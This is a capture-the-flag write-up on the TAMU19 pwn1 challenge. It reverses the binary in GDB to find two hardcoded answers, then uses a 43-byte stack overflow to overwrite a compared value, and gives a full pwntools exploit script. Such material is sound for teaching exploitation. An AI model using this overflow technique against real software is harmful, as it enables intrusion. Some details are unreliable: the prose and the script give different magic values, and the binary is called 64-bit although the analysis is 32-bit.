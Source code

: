 ```yaml
---
title: Nightmare Series - Stack Smashing (Part 2)
categories:
  - Blog
tags:
  - Reversing
  - Exploits
published: true
---
```


## **File** 04-bof_variable/tmau19_pwn1

## **File Analysis**
File details confirm it is an 64 bit ELF file and symbols are available.

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/file_details.png)

Running the file presents us a basic prompt for input. Feeding with test data displays an error message and exits out. This gives us a clue that the binary expects a certain input answer.

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/basic_run.png)

## **Basic Reverse Engineering**
Using GDB we can see the following high level main function flow:
 - Basic function prologue
 - 2x function calls to 'puts' for initial prompts
 - Several resulting combinations of 'fgets' and 'puts' function calls for user input and further prompts
 - Several conditional jumps after each input is compared to saved value using 'strncmp' function
 - Final comparison to hardcoded value before calling 'print_flag' function
 - Epilogue and exit

From looking at the overall logic, we can see that several inputs are required to make it through various layers or answers before we can reach the 'call print_flag' instruction.

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/main_pt1.png)

## First Answer
Checking out the first chain of function calls, we see an 'fgets' followed by 'strncmp'. The value read in by 'fgets' is in this case stored in the location EBP-0x3b as is shown in the ```LEA EAX, [EBP-0x3b]; PUSH EAX;``` set of instructions (based on CDECL calling conventions) being the second parameter to the 'fgets' function call.

The following block of instructions sets up the variables for the function 'strncmp' which is comparing a saved string value to that which was passed in via the user. The value here is located at offset EBX-0x159f. We can place a quick breakpoint on the previous instruction and  when reached, print the string value contained at the offset giving us our first answer!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/first_answer.png)

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/main_pt2.png)

## Second Answer
We're then greeted with a another prompt for an answer which we can see from the corresponding instruction blocks contains subsequent calls to 'fgets' again followed by 'strncmp', this time with a saved value at offset EBX-0x154d. Following the same routine as above we can print this value using GDB by placing a break point on the instruction just before and view the saved string value the binary expects. We now have our second answer!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/second_answer.png)

At this point we have made it to the third question and this time the input is being compared directly with a hardcoded value of '0xdae110c8' thus controlling the conditional CMP/JNE instruction combination which allows us to reach the 'print_flag' function call or not.

The value is being compared directly with the offset EBP-0x10 on the stack. This is interesting because since if we look back, our previous input answer to this question is loaded (as all others were) at offset EBP-0x3b on the stack. This gives us a nice opportunity to again overflow the stack variable on our final answer, overwrite the location to ensure it contains the expected value and get our flag!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/stack_diagram.png)

## **Exploit**

In this example, for the exploit to succeed we have to send all of the correct answers we have obtained in the appropriate order including the final exploit answer. The amount of padding data (0x3b-0x10 = 0x2b(43)bytes) required for our last answer followed by our overwrite payload value of '0xdae110c8' will be written to the stack. This should ensure the binary passes the conditional comparison and reaches the 'print_flag' function call instruction. We can receive the output, which contains our flag.

```
from pwn import *

pty = process.PTY
target = process('./pwn1',stdin=pty, stdout=pty)

#Setup responses
string1='Sir Lancelot of Camelot'
string2='To seek the Holy Grail.'
#Final exploit response to overwrite stack location with our controlled value
string3=b'A'*43+p32(0xdea110c8)

# Start the target process
#target = process('./pwn1')

#Recieve first output lines
print(target.recvline(timeout=5))
print(target.recvline(timeout=5))
#Send first answer
target.sendline(string1)

#Second output
print(target.recvline(timeout=5))
#Second answer
target.sendline(string2)

#Third output
print(target.recvline(timeout=5))
#Send third answer including exploit payload
target.sendline(string3)
print(target.recvall())
```

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/exploit_run.png)
